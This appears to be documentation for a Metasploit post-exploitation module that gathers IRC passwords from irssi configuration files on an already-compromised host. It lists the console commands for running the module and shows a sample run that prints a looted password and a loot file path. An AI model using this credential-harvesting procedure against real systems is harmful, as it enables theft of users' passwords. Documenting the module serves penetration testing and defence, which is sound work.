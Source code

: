 ## Vulnerable Application

  Any system with a `shell` or `meterpreter` session.

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/irssi_creds```
  3. Do: ```set SESSION [SESSION_ID]```, replacing ```[SESSION_ID]``` with the session number you wish to run this one.
  4. Do: ```run```
  5. If the system has readable configuration files containing irc passwords, they will be printed out.

## Options

  None.

## Scenarios

```
msf post(irssi_creds) > run

[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found a IRC password(s): chubbybunnies
[+] IRC password(s) stored in /Users/[REDACTED]/.msf/loot/20170405005410_default_[REDACTED]_irc.password_744582.txt
[*] Post module execution completed
```
